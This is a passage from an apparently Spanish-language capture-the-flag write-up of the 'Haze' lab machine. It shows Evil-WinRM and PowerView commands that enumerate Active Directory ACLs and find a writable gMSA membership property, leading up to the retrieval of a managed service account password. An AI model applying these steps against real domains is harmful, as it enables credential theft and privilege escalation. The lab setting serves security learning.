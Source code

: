~~~ bash
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ObjectAcl -SamAccountName 'Haze-IT-Backup$' -ResolveGUIDs

AceQualifier           : AccessDenied
ObjectDN               : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : ms-DS-ManagedPasswordPreviousId
ObjectSID              : S-1-5-21-323145914-28650650-2368316563-1111
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessDeniedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-323145914-28650650-2368316563-1103
AccessMask             : 16
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit
InheritedObjectAceType : All
OpaqueLength           : 0

...
...
...
~~~

Mucha información para estar viendo manualmente si hay permisos para `gMSA_Managers`, así que aplicaremos un filtro y aplicaremos otra función

~~~ bash
*Evil-WinRM* PS C:\Temp> Find-InterestingDomainAcl -ResolveGUIDS | ?{$_.IdentityReferenceName -match "gMSA_Managers"}


ObjectDN                : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : WriteProperty
ObjectAceType           : ms-DS-GroupMSAMembership
AceFlags                : None
AceType                 : AccessAllowedObject
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-323145914-28650650-2368316563-1107
IdentityReferenceName   : gMSA_Managers
IdentityReferenceDomain : haze.htb
IdentityReferenceDN     : CN=gMSA_Managers,CN=Users,DC=haze,DC=htb
IdentityReferenceClass  : group
~~~

### Granting Permissions to Retrieve `gMSA` Password

El grupo `gMSA_Managers` tiene la capacidad de modificar las propiedades de la cuenta `Haze-IT-Backup` gracias al permiso `WriteProperty`, asignaremos al usuario `mark.adams` como alguien que pueda leer las credenciales de `gMSA`
